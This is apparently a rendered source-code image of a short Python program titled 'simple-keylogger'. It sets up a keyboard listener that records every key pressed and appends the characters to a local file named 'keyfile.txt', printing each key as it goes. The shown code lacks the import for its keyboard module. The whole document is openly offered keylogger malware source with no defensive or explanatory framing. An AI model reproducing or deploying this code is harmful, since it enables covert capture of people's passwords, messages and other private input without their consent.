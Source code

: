# simple-keylogger

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
